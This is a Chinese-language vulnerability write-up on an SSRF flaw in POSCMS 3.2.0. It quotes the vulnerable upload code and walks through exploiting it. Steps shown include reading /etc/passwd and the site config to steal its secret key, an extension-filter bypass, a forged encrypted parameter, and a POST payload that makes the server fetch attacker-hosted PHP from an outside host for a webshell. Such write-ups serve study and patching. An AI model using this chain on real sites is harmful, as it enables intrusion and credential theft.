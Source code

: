 POSCMS 3.2.0 ssrf漏洞getshell
=============================

一、漏洞简介
------------

二、漏洞影响
------------

POSCMS 3.2.0

三、复现过程
------------

打开项目源代码，第一个漏洞的出处在`\diy\module\member\controllers\Api.php`中的`down_file()`函数，内容如下：

    // 文件下载并上传
    public function down_file() {

        /***********************************************************
        * Part0. 获取POST参数url中的内容并解析
        ************************************************************/
        $p = array();
        $url = explode('&', $this->input->post('url'));

        foreach ($url as $t) {
        $item = explode('=', $t);
        $p[$item[0]] = $item[1];
        }

        /***********************************************************
        * Part1. 验证用户权限
        ************************************************************/
        !$this->uid && exit(dr_json(0, fc_lang('游客不允许上传附件')));

        // 会员组权限
        $member_rule = $this->get_cache('member', 'setting', 'permission', $this->member['mark']);

        // 是否允许上传附件
        !$this->member['adminid'] && !$member_rule['is_upload'] && exit(dr_json(0, fc_lang('您的会员组无权上传附件')));

        // 附件总大小判断
        if (!$this->member['adminid'] && $member_rule['attachsize']) {
        $data = $this->db->select_sum('filesize')->where('uid', $this->uid)->get('attachment')->row_array();
        $filesize = (int)$data['filesize'];
        $filesize > $member_rule['attachsize'] * 1024 * 1024 && exit(dr_json(0, fc_lang('附件空间不足！您的附件总空间%s，现有附件%s。', $member_rule['attachsize'].'MB', dr_format_file_size($filesize))));
        }

        /***********************************************************
        * Part2. 解密code参数的值获得扩展、路径等信息
        ************************************************************/    
        list($size, $ext, $path) = explode('|', dr_authcode($p['code'], 'DECODE'));

        /***********************************************************
        * Part3. 生成存放路径
        ************************************************************/    
        $path = $path ? SYS_UPLOAD_PATH.'/'.$path.'/' : SYS_UPLOAD_PATH.'/'.date('Ym', SYS_TIME).'/';
        !is_dir($path) && dr_mkdirs($path);

        $furl = $this->input->post('file');

        /***********************************************************
        * Part4. 访问并获取文件  
        ************************************************************/
        $file = dr_catcher_data($furl);
        !$file && exit(dr_json(0, '获取远程文件失败'));

        /***********************************************************
        * Part5. 根据扩展名过滤并存储数据  
        ************************************************************/
        $fileext = strtolower(trim(substr(strrchr($furl, '.'), 1, 10))); //扩展名
        $exts = (array)explode(',', $ext);
        !in_array($fileext, $exts) && exit(dr_json(0, '远程文件扩展名（'.$fileext.'）不允许'));
        $fileext == 'php' && exit(dr_json(0, '远程文件扩展名（'.$fileext.'）不允许'));

        $filename = substr(md5(time()), 0, 7).rand(100, 999);       //文件名

        /***********************************************************
        * Part6. 向路径写入数据并返回响应结果  
        ************************************************************/
        if (@file_put_contents($path.$filename.'.'.$fileext, $file)) {
            $info = array(
                'file_ext' => '.'.$fileext,
                'full_path' => $path.$filename.'.'.$fileext,
                'file_size' => filesize($path.$filename.'.'.$fileext)/1024,
                'client_name' => '',
            );
            $this->load->model('attachment_model');
            $this->attachment_model->siteid = $p['siteid'] ? $p['siteid'] : SITE_ID;
            $result = $this->attachment_model->upload($this->uid, $info);
            if (is_array($result)) {
                list($id) = $result;
                echo json_encode(array('status'=>1, 'id'=>$id, 'name' => dr_strcut($filename, 10).'.'.$fileext));exit;
            } else {
                @unlink($info['full_path']);
                exit(dr_json(0, $result));
            }
        } else {
            exit(dr_json(0, '文件移动失败，目录无权限（'.$path.'）'));
        }
    }

### 源码分析

这段代码的主要逻辑是**根据请求中参数去请求文件内容，并将它保存在特定目录中，最后以json格式返回保存结果**。

Part1没什么好说的，只要管理员不修改默认权限，注册个普通用户就有视频、图片的上传功能。Part2中`dr_authcode()`是一个加解密函数，位于`\diy\dayrui\helpers\function_helper.php`。其具体实现可以不用关心，毕竟源码已经到手，只要找到密钥，就能随意构造加密结果。

![1.png](./.resource/POSCMS3.2.0ssrf漏洞getshell/media/rId25.png)

Part3中确定了下载文件的名称，这里我们请求的参数中不包含`code`参数，使`$PATH为空`，则它会取问号表达式的后半段`SYS_UPLOAD_PATH.'/'.date('Ym', SYS_TIME).'/'`，最后的上传路径如下：`/uploadfile/年月/`。

![2.png](./.resource/POSCMS3.2.0ssrf漏洞getshell/media/rId26.png)

Part4中的`dr_catcher_data()`函数正是SSRF漏洞的来源，其实现位于`\diy\dayrui\helpers\function_helper.php`。无论代码最后选的是fopen模式还是curl模式，开发人员都没有对可解析的协议做限制，也没有校验请求参数`$url`的范围。

![3.png](./.resource/POSCMS3.2.0ssrf漏洞getshell/media/rId27.png)

### 寻找触发点

直接用VSCode的全局搜索功能，寻找`down_file()`函数的调用位置：

![4.png](./.resource/POSCMS3.2.0ssrf漏洞getshell/media/rId29.png)

发现它出现在了一个js文件中，于是构造一个XHR的POST请求到服务端，设置`file`参数的值使其访问`/etc/passwd`，得到如下响应：

![5.png](./.resource/POSCMS3.2.0ssrf漏洞getshell/media/rId30.png)

用浏览器打开"文件存储路径+返回的文件名"：

![6.png](./.resource/POSCMS3.2.0ssrf漏洞getshell/media/rId31.png)

### GetShell

再请求一下`/config/system.php`，该文件中存储有重要的元数据。

![7.png](./.resource/POSCMS3.2.0ssrf漏洞getshell/media/rId33.png)

这是因为Part5中的`$ext`变量虽然为空，但它专门过滤了.php文件，好在利用`file://`协议的解析特性，可以绕过这一点，比如`.php?.`或`.php#.`：

![8.png](./.resource/POSCMS3.2.0ssrf漏洞getshell/media/rId34.png)

再次用浏览器打开并设置编码格式为UTF-8：

![9.png](./.resource/POSCMS3.2.0ssrf漏洞getshell/media/rId35.png)

获取到安全密钥后，可以构造特殊payload绕过扩展名检查。这里，总结一下此次GetShell的思路：

1.  构造特殊payload使.html文件允许被上传
2.  在自己控制的服务器上放置.html文件（里面有恶意代码的php代码）
3.  利用SSRF漏洞，使服务器用http协议访问带外数据（OOB），获取到恶意的.html，形成Getshell

为了绕过扩展名检查，我将加密代码拷贝进另一文件并填入密钥，输入选择`1|html,|0`，运行得到输出为`22d7Qrdws88/R/uETpWlvY/PFNTYzvs/QNj5PBa66veNDlECqpM`，并构造POST参数`file=http://www.0-sec.org/haha.html&url=code=22d7Qrdws88/R/uETpWlvY/PFNTYzvs/QNj5PBa66veNDlECqpM`，这里的`haha.html`里包含了php代码`<?php echo phpinfo();?>`，最终效果如下：

![10.png](./.resource/POSCMS3.2.0ssrf漏洞getshell/media/rId36.png)

![11.png](./.resource/POSCMS3.2.0ssrf漏洞getshell/media/rId37.png)

如果这里复现失败了，那大概是在于两点：一、加密函数有时效性，过时需要重新生成；二、CentOS默认安装的Apache无法解析包含php代码的html文件，需要在`/etc/httpd/conf.d/php.conf`中添加如下：

![12.png](./.resource/POSCMS3.2.0ssrf漏洞getshell/media/rId38.png)

参考链接
--------

> https://xz.aliyun.com/t/4858\#toc-1
